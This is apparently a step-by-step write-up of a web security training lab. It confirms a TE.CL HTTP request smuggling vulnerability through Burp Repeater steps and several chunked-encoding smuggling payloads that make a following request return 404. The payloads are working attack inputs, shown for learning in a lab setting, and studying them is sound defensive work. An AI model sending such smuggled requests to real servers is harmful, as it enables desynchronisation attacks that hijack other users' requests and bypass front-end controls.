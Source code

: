 # HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

## This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

## To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

---

### step 1

send homepage to repeater
change get request to post request
change HTTP /2 to HTTP/1.1
add SMUGGLED to body send request

![screenshot](./images/images_lab5/lab5_homepage_post_request.png)

### step2

add
Transfer-Encoding: chunked
8
SMUGGLED
0

![screenshot](./images/images_lab5/lab5_add_te_to_home_page.png)

![screenshot](./images/images_lab5/lab5_te_smuggled.png)

### step3

increase content-Length to 19 or 20
it will give internal server error

![screenshot](./images/images_lab5/lab5_internal_server_error.png)

### step4

test payload

```
5a
GET / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

![screenshot](./images/images_lab5/lab5_testing_payload.png)

```
67
GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![screenshot](./images/images_lab5/lab5_test_payload_for_blog.png)

![screenshot](./images/images_lab5/lab5_post_in_response.png)

### step6

change get request to post request

```
68
POST /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![screenshot](./images/images_lab5/lab5_test_post_request.png)

### step7

test payload to solve lab

```
5d
GET /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![screenshot](./images/images_lab5/lab5_test_payload_404_get_request.png)

lab will solved
404
you can also send post request to solve lab

![screenshot](./images/images_lab5/lab5_testing_payload_404_post_request.png)

![screenshot](./images/images_lab5/lab5_congratulations.png)
